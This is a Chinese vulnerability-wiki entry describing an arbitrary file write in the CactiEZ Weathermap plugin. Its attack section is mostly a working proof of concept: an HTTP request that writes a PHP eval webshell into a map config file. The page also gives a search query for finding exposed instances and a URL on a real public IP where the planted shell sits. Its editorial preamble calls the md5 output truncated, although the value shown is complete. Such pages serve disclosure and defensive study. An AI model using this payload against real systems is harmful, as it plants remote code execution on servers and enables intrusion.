

# CactiEZ weathermap 插件任意文件写入漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：相关editor.php开放、地图配置目录可写且PHP可执行；提供Cookie但未说明是否必需登录
- 证据范围：参数到配置PHP文件的链条清楚，但产品版本和鉴权条件缺失；不能仅由登录页图判断未认证

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 披露时间字段实际是漏洞编号
- 正文保留公网IP应改实验占位
- 给出的md5(1)字符串明显截断，不是完整32位输出
- version字段是产品名称

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

CactiEZ 中文版是 Cacti 中文解决方案，整合了 Spine，RRDTool 和美化字体。集成 Thold，Monitor，Syslog，Weathermap，Realtime，Errorimage，Mobile，Aggregate 以及 Apache，Squid，F5，Nginx，MySQL 等模板。

CactiEZ Weathermap 插件存在任意文件写入漏洞。

## 披露时间

```
wooyun-2016-0178509
```

## 漏洞影响

```
CactiEZ Weathermap 插件
```

## 网络测绘

```
app="Cactiez"
```

## 漏洞复现

登录页面


poc

```http
GET /plugins/weathermap/editor.php?plug=0&mapname=test.php&action=set_map_properties&param=&param2=&debug=existing&node_name=&node_x=&node_y=&node_new_name=&node_label=&node_infourl=&node_hover=&node_iconfilename=--NONE--&link_name=&link_bandwidth_in=&link_bandwidth_out=&link_target=&link_width=&link_infourl=&link_hover=&map_title=<?php%20echo(md5(1));@eval($_POST[0]);?>&map_legend=Traffic+Load&map_stamp=Created%3A%2B%25b%2B%25d%2B%25Y%2B%25H%3A%25M%3A%25S&map_linkdefaultwidth=7 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: */*
Cookie: Cacti=xxx
```

```
http://114.242.111.210:8088/plugins/weathermap/configs/test.php
```

回显 md5 值：

```
# echo(md5(1));
c4ca4238a0b923820dcc509a6f75849b
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
